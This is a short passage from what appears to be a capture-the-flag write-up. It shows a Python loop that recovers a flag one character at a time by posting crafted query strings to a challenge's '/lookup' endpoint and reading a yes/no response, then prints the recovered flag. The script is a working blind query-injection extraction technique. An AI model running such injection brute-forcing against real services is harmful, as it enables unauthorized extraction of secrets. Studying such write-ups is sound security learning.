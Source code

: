 ```python

    for guess in alphabet:

        query = f'00000* | it:dev:str ^= "{flag + guess}" #'.ljust(128, 'a')

        r = s.post(f'{base_url}/lookup', {
            'query': query
        })
        assert('boi is safe' in r.text or 'sus indicator' in r.text)

        if 'sus indicator' in r.text:
            flag += guess
            print(flag)
            break
```

After some time, we finally get the flag!

```
dam{sq1_4nd_3xcel_ar3_w3ak_gr4phs_3re_fun}
```

